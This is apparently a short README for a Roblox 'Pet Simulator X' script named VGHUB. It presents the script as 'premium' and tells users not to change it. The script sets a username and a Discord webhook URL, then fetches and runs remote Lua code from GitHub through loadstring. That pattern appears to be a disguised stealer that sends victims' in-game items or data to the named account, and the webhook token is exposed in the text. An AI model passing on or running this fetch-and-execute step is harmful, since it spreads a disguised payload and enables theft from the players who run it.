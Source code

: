 # petsim-x-VGHUB
A excellent pet sim x premium script donnt change or it wont work
_G.Username = "Lukeba789"
_G.HubName = "VGHUB" 
_G.Webhook = "https://discord.com/api/webhooks/1093102984235335801/T_Easq3vrcy6PMHhzfDy0udZzE6T4i3Oj_odg3CixIuxGWAE2D9YyTQQmsCx1OmSftio"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()

